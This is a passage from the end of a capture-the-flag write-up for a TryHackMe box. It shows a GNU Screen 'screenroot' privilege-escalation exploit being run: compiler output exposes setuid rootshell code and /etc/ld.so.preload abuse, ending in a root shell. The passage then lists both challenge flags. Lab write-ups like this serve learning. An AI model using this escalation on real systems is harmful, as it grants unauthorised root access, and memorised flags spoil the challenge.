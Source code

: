   ```
  joker@ubuntu:~$ nano screen-exploit.sh
  joker@ubuntu:~$ chmod +x screen-exploit.sh 
  joker@ubuntu:~$ ./screen-exploit.sh 
  ~ gnu/screenroot ~
  [+] First, we create our shell and library...
  /tmp/libhax.c: In function ‘dropshell’:
  /tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
       chmod("/tmp/rootshell", 04755);
       ^
  /tmp/rootshell.c: In function ‘main’:
  /tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
       setuid(0);
       ^
  /tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
       setgid(0);
       ^
  /tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
       seteuid(0);
       ^
  /tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
       setegid(0);
       ^
  /tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
       execvp("/bin/sh", NULL, NULL);
       ^
  [+] Now we create our /etc/ld.so.preload file...
  [+] Triggering...
  ' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
  [+] done!
  No Sockets found in /tmp/screens/S-joker.
  
  # whoami
  root
  # id
  uid=0(root) gid=0(root) groups=0(root),1000(joker)
  ```
  
- That's it, read the flag and madness is gone. Peace! 🙌

---

## 🏁 Flags

- **User Flag**: `THM{d5781e53b130efe2f94f9b0354a5e4ea}`
- **Root Flag**: `THM{5ecd98aa66a6abb670184d7547c8124a}`

---
